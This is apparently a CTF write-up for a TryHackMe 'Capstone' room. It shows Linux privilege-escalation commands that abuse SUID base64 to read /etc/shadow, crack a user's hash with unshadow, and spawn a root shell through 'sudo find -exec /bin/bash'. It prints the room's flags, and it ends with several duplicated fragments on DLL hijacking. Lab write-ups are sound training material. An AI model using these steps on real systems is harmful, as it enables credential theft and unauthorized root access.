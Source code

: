 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/capstone/","tags":["CTF","write-up","SUID","sudo-l"]}
---
```



---
# Privilege Escalation
## Check for SUID files
```shell
find / -perm -u=s -type f -ls 2>/dev/null
```
We found `base64`
![Pasted image 20240819181358.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819181358.png)
## Use https://gtfobins.github.io/ to exploit it.
We can read any file, we read `/etc/shadow` to see the hash of other users.
```shell
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
```
![Pasted image 20240819181615.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819181615.png)
## On our machine crack the hash missy
Create a file passwd, copy the missy line of passwd
![Pasted image 20240819181914.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819181914.png)
Create the shadow, copy the missy line of shadow
![Pasted image 20240819182033.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819182033.png)
Unshadow the file using `unshadow` to the unshadowed file
```shell
unshadow passwd shadow > unshadowed
```
Crack the unshadowed file
![Pasted image 20240819182246.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819182246.png)
## Get the first flag
Login as missy
```shell
su missy
```
The flag is on `/home/missy/Documents`
![Pasted image 20240819182541.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819182541.png)
> [!check]- flag1.txt
> THM-42828719920544
## Escalate to root

Check `sudo -l` for missy
![Pasted image 20240819183619.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819183619.png)
Leverage `find`
```shell
sudo find / etc/passwd -exec /bin/bash \;
```
![Pasted image 20240819183906.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819183906.png)
We are root now
## Get the second flag
![Pasted image 20240819184137.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819184137.png)
> [!check]- flag2.txt
> THM-168824782390238

---

## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



Replace the DLL by a malicious

![Pasted_image_20230909115418.png](/img/user/attachments/Pasted_image_20230909115418.png)
## Exploit know vulnerabilities

Tools
	Robber
	PowerSploit


</div></div>

## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

# DLL hijacking head

</div>


Replace the DLL by a malicious

![Pasted_image_20230909115418.png](/img/user/attachments/Pasted_image_20230909115418.png)
## Exploit know vulnerabilities

Tools
	Robber
	PowerSploit


</div></div>

## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

## L2 Header

</div>


Replace the DLL by a malicious

![Pasted_image_20230909115418.png](/img/user/attachments/Pasted_image_20230909115418.png)
## Exploit know vulnerabilities

Tools
	Robber
	PowerSploit


</div></div>

## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

## L2 spaced Header

</div>


Replace the DLL by a malicious

![Pasted_image_20230909115418.png](/img/user/attachments/Pasted_image_20230909115418.png)
## Exploit know vulnerabilities

Tools
	Robber
	PowerSploit


</div></div>

## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

## Heading

</div>


Replace the DLL by a malicious

![Pasted_image_20230909115418.png](/img/user/attachments/Pasted_image_20230909115418.png)
## Exploit know vulnerabilities

Tools
	Robber
	PowerSploit


</div></div>

## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

# The title is DLL hijacking

</div>


Replace the DLL by a malicious

![Pasted_image_20230909115418.png](/img/user/attachments/Pasted_image_20230909115418.png)
## Exploit know vulnerabilities

Tools
	Robber
	PowerSploit


</div></div>

## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

## L2 header and The title is DLL hijacking

</div>


Replace the DLL by a malicious

![Pasted_image_20230909115418.png](/img/user/attachments/Pasted_image_20230909115418.png)
## Exploit know vulnerabilities

Tools
	Robber
	PowerSploit


</div></div>
